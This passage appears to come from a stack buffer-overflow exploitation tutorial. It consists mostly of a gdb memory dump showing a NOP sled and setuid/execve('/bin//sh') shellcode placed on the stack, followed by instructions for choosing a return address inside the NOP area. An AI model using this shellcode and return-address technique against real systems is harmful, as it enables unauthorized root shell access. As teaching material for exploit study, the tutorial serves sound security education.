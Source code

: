 ```
0xbffffa70:     0xbffffc31      0xbffffc5b      0xbffffc6e      0xbffffc78
0xbffffa80:     0xbffffe3b      0xbffffe47      0xbffffe52      0xbffffea4
0xbffffa90:     0xbffffebe      0xbffffeca      0xbffffee2      0xbffffef7
0xbffffaa0:     0xbfffff08      0xbfffff11      0xbfffff44      0xbfffff54
0xbffffab0:     0xbfffff5c      0xbfffff69      0xbfffffac      0xbfffffce
0xbffffac0:     0x00000000      0x00000010      0x0383f3ff      0x00000006
0xbffffad0:     0x00001000      0x00000011      0x00000064      0x00000003
...
[Trimmed]
...
0xbffffb30:     0x00000000      0x0000000f      0xbffffb4b      0x00000000
0xbffffb40:     0x00000000      0x00000000      0x69000000      0x00363836
---Type <return> to continue, or q <return> to quit---
0xbffffb50:     0x00000000      0x00000000      0x682f0000      0x2f656d6f
0xbffffb60:     0x6f646f62      0x7365742f      0x64656274      0x65742f32
0xbffffb70:     0x90007473      0x90909090      0x90909090      0x90909090
0xbffffb80:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb90:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffba0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffbb0:     0x90909090      0x90909090      0x31909090      0xb0c389c0
0xbffffbc0:     0x3180cd17      0x6e6852d2      0x6868732f      0x69622f2f
0xbffffbd0:     0x5352e389      0x428de189      0xcd623078      0x61616180
0xbffffbe0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffffbf0:     0xfffba061      0x4f4800bf      0x414e5453      0x623d454d
0xbffffc00:     0x77616b61      0x00696c61      0x4c454853      0x622f3d4c
0xbffffc10:     0x622f6e69      0x00687361      0x4d524554      0x6574783d
0xbffffc20:     0x48006d72      0x53545349      0x3d455a49      0x30303031
0xbffffc30:     0x48535300      0x494c435f      0x3d544e45      0x66663a3a
0xbffffc40:     0x313a6666      0x312e3136      0x312e3234      0x312e3435
0xbffffc50:     0x31203130      0x20383430      0x53003232      0x545f4853
(gdb) x/x $ebp
0xbffff9c8:     0xbffffa28
(gdb) x/x $ebp+4
0xbffff9cc:     0x00689e33
(gdb) x/x $ebp-4
0xbffff9c4:     0x0066dc80
(gdb) x/x $esp
0xbffff940:     0x6f6e2800
(gdb) q
The program is running.  Exit anyway? (y or n) y
```

The important part of the memory location has been highlighted with color. Next, get an address of the NOPs area. If the chosen address of the NOPs fails, try another adjacent address. The most important thing here the chosen return address must be pointing the NOPs area. Let try the following address.

```
0xbffffba0
```

Rearrange in hexadecimal representation.
